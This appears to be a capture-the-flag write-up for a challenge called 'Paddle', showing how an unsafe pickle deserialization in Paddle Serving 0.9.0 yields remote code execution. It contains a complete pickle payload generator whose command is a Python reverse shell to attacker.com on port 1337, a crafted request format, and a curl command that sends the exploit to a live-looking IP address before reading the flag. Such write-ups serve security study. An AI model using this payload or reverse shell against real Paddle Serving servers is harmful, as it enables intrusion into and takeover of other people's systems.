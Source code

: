 # Paddle

**Tags**: Clone-and-Pwn, web

> Flexible to serve ML models, and more.

For this challenge, we are given a Dockerfile that installs the latest version of [Paddle Servinge](https://github.com/PaddlePaddle/Serving) and runs the built-in demo.

```Dockerfile
FROM python:3.6-slim
RUN apt-get update && \
    apt-get install libgomp1 && \
    rm -rf /var/lib/apt/lists/*
RUN pip install \
    paddle-serving-server==0.9.0 \
    paddle-serving-client==0.9.0 \
    paddle-serving-app==0.9.0 \
    paddlepaddle==2.3.0
WORKDIR /usr/local/lib/python3.6/site-packages/paddle_serving_server/env_check/simple_web_service
RUN cp config_cpu.yml config.yml
RUN echo "rwctf{this is flag}" > /flag
CMD ["python", "web_service.py"]
```

Looking at the codebase, we can find Pickle deserialization in the [`python/pipeline/operator.py`](https://github.com/PaddlePaddle/Serving/blob/v0.9.0/python/pipeline/operator.py) file. So if can control the `tensor` argument of `proto_tensor_2_numpy`, we can get RCE.

This method is called in `unpack_request_package` and because `Op` is the supertype of all the operator classes, it will get called when the server processes our request.

```python
class Op(object):
    def proto_tensor_2_numpy(self, tensor):
        # [...]
        elif tensor.elem_type == 13:
            # VarType: BYTES
            byte_data = BytesIO(tensor.byte_data)
            np_data = np.load(byte_data, allow_pickle=True)
        # [...]
    
    def unpack_request_package(self, request):
        # [...]
        for one_tensor in request.tensors:
            name = one_tensor.name
            elem_type = one_tensor.elem_type

            # [...]
            
            numpy_dtype = _TENSOR_DTYPE_2_NUMPY_DATA_DTYPE.get(elem_type)
            
            if numpy_dtype == "string":
                # [...]
            else:
                np_data, np_lod = self.proto_tensor_2_numpy(one_tensor)
                dict_data[name] = np_data
                if np_lod is not None:
                    dict_data[name + ".lod"] = np_lod

```

So `request` should contain:
```json
{
    "tensors": [
        {
            "name": ":psyduck:",
            "elem_type": 13,
            "byte_data": "pickled data"
        }
    ]
}
```

Where pickled data can be generated with the classic Pickle RCE payload:
```python
import pickle
import base64

reverse_shell = """export RHOST="attacker.com";export RPORT=1337;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'"""

class PickleRce(object):
    def __reduce__(self):
        import os
        return (os.system,(reverse_shell,))

print(base64.b64encode(pickle.dumps(PickleRce())))
```

So finally we can send the exploit to get a reverse shell:
```sh
curl -v http://47.88.23.73:37068/uci/prediction -d '{"tensors": [{"name": ":psyduck:", "elem_type": 13, "byte_data": "gANjcG9z..."}]}'
```

```sh
cat /flag
```
> `rwctf{R0ck5-with-PaddLe-s3rv3r}`
